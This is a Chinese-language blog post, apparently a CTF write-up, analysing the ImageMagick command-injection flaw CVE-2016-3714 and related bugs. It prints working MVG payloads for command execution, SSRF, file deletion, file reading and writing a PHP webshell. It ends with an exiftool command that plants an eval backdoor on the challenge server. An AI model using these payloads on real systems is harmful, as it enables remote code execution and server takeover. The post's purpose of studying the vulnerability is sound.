 ```yaml
---
title: ImageMagick命令执行漏洞（CVE-2016-3714）浅析
date: 2020-08-04 17:56:09
categories:
- Vulnerabilities
- WEB
tags:
- RCE
---
```

## 前言

&emsp;&emsp;在做CTF题的时候碰到一道图片上传漏洞的题，尝试了很久发现并不能绕过检测。经过大佬提示这道题玩的是ImageMagick命令执行漏洞，CVE编号CVE-2016-3714，所以就想去好好了解一下这个漏洞。

<!-- more -->

## ImageMagick

&emsp;&emsp;ImageMagick是一款功能强大，用户极多的开源图片处理软件，，可以用来读、写和处理多种格式的图片文件。很多网站开发者会调用这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等操作。

## 漏洞描述

&emsp;&emsp;ImageMagick是一款开源图片处理库，支持PHP、Ruby、NodeJS和Python等多种语言，使用非常广泛。包括PHP imagick、Ruby rmagick和paperclip以及NodeJS imagemagick等多个图片处理插件都依赖它运行。当攻击者构造含有恶意代码得图片时，ImageMagick库对于HTTPPS文件处理不当，没有做任何过滤，可远程实现远程命令执行，进而可能控制服务器。

&emsp;&emsp;相同问题触发的漏洞有很多，如CVE-2016-3714、CVE-2016-3715、CVE-2016-3716、CVE-2016-3717，其中最严重的就是CVE-2016-3714命令执行漏洞。

&emsp;&emsp;该漏洞影响范围为ImageMagick 6.9.3-9以前的所有版本。

## 漏洞分析

&emsp;&emsp;ImageMagick之所以支持那么多的文件格式,是因为它内置了非常多的图像处理库,对于这些图像处理库,ImageMagick给它起了个名字叫做”Delegate”(委托),每个Delegate对应一种格式的文件,然后通过系统的system()命令来调用外部的lib进行处理。调用外部lib的过程是使用系统的system命令来执行的，导致命令执行的代码。

&emsp;&emsp;在ImageMagick的默认配置文件里可以看到所有的委托：/etc/ImageMagick/delegates.xml

&emsp;&emsp;具体代码参考[这里](https://github.com/ImageMagick/ImageMagick/blob/25d021ff1a60a67680dbb640ccc0b6b60f785192/magick/delegate.c)

&emsp;&emsp;该漏洞出现在mageMagick对https形式的文件处理的过程中，所以直接定位到https Delegate那里：

```XML
" <delegate decode=\"https\" command=\"&quot;wget&quot; -q -O &quot;%o&quot; &quot;https:%M&quot;\"/>"
```

&emsp;&emsp;可以看到，command定义了它对于https文件处理时带入system()函数得命令：`"wget" -q -O "%o" "https:%M"`。有些版本可能使用的curl命令，问题还是一样的。

&emsp;&emsp;wget是从网络下载文件得命令，%M是一个占位符，被定义为输入的图片格式,也就是我们输入的url地址。但是由于只是做了简单的字符串拼接,没有做任何过滤，直接拼接到command命令中，所以我们可以将引号闭合后通过"|",”`”,”&”等带入其他命令,也就形成了命令注入。

&emsp;&emsp;比如我们传入如下代码：`https://test.com"|ls “-al`

&emsp;&emsp;则实际得system函数执行得命令为：`“wget” -q -O “%o” “ https://test.com"|ls “-al”`

&emsp;&emsp;这样，ls -al命令成功执行。

## 漏洞利用

&emsp;&emsp;ImageMagick默认支持一种图片格式，叫mvg，而mvg与svg格式类似，其中是以文本形式写入矢量图的内容，允许在其中加载ImageMagick中其他的delegate(比如存在漏洞的https delegate)。并且在图形处理的过程中,ImageMagick会自动根据其内容进行处理,也就是说我们可以将文件随意定义为png、jpg等网站上传允许的格式,这大大增加了漏洞的可利用场景。

&emsp;&emsp;所以我们可以构造一个.mvg格式的图片（但文件名可以不为.mvg，比如下图中包含payload的文件的文件名为vul.gif，而ImageMagick会根据其内容识别为mvg图片），并在https://后面闭合双引号，写入自己要执行的命令：

```Code
* push graphic-context
* viewbox 0 0 640 480
* fill 'url(https://"|id; ")'
* pop graphic-context
```

&emsp;&emsp;简单解释一下上面的POC：

* push和pop是用于堆栈的操作，一个进栈，一个出栈;

* viewbox是表示SVG可见区域的大小，或者可以想象成舞台大小，画布大小。简单理解就是根据后面得参数选取其中得一部分画面;

* fill url()是把图片填充到当前元素内;

&emsp;&emsp;使用fill url()的形式调用存在漏洞的https delegate，当ImageMagick去处理这个文件时,漏洞就会被触发。

## 系列漏洞

&emsp;&emsp;CVE-2016-3718：利用mvg格式中可以包含url的特点，进行SSRF攻击。

```Code
* push graphic-context
* viewbox 0 0 640 480
* fill 'url(http://example.com/)'
* pop graphic-context
```

&emsp;&emsp;CVE-2016-3715：利用ImageMagick支持的ephemeral协议，来删除任意文件。

```Code
* push graphic-context
* viewbox 0 0 640 480
* image over 0,0 0,0 'ephemeral:/tmp/delete.txt'
* popgraphic-context
```

&emsp;&emsp;CVE-2016-3716：利用ImageMagick支持的msl协议（读取一个msl格式的xml文件，并根据其内容执行一些操作），来进行文件的读取和写入。利用这个漏洞，可以将任意文件写为任意文件，比如将图片写为一个.php后缀的webshell。

```Code
* file_move.mvg
* -=-=-=-=-=-=-=-=-
* push graphic-context
* viewbox 0 0 640 480
* image over 0,0 0,0 'msl:/tmp/msl.txt'
* popgraphic-context
* 
* /tmp/msl.txt
* -=-=-=-=-=-=-=-=-
* <?xml version="1.0" encoding="UTF-8"?>
* <image>
* <read filename="/tmp/image.gif" />
* <write filename="/var/www/shell.php" />
* </image>
```

&emsp;&emsp;CVE-2016-3717：本地文件读取漏洞。

```Code
* push graphic-context
* viewbox 0 0 640 480
* image over 0,0 0,0 'label:@/etc/hosts'
* pop graphic-context
```

## 漏洞扩展

&emsp;&emsp;PHP扩展『ImageMagick』也存在这个问题，而且只需要调用了Imagick类的构造方法，即可触发这个漏洞。

&emsp;&emsp;除了.mvg格式的图片以外，普通png格式的图片也能触发命令执行漏洞。在ImageMagick源码中除了%m，还有%l占位符，表示图片exif label信息：

```XML
<delegate decode="miff" encode="show" spawn="True" command="&quot;/usr/bin/display&quot; -delay 0 -window-group %[group] -title &quot;%l &quot; &quot;ephemeral:%i&quot;"/>
```

&emsp;&emsp;它将%l拼接进入了/usr/bin/display命令中，所以我只需将正常的png图片，带上一个『恶意』的exif信息。在调用ImageMagick将其处理成.show文件的时候，即可触发命令注入漏洞：

```Code
* exiftool -label="\"|/usr/bin/id; \"" test.png
* convert test.png o.show
```

&emsp;&emsp;但这个方法鸡肋之处在于，因为delegate.xml中配置的encode=show（或win），所以只有输出为.show或.win格式的情况下才会调用这个委托，而普通的文件处理是不会触发这个命令的。

## 实例

&emsp;&emsp;最后回到那道CTF题：[Jarvis OJ - 图片上传漏洞](http://web.jarvisoj.com:32790/)。

&emsp;&emsp;通过网站目录扫描发现有和test.php界面，打开发现是phpinfo界面，其中开启了imagick模块：

![](/img/ImageMagick/ImageMagick1.png)

&emsp;&emsp;先用 exiftool 生成一个一句话后门，路径由 phpinfo 得到：

```Bash
exiftool -label="\"|/bin/echo \<?php \@eval\(\\$\_POST\[x\]\)\;?\> > /opt/lampp/htdocs/uploads/x.php; \"" normal.png 
```

&emsp;&emsp;然后上传图片：

![](/img/ImageMagick/ImageMagick2.png)

&emsp;&emsp;之后就是直接连接webshell或者找flag了：

![](/img/ImageMagick/ImageMagick3.png)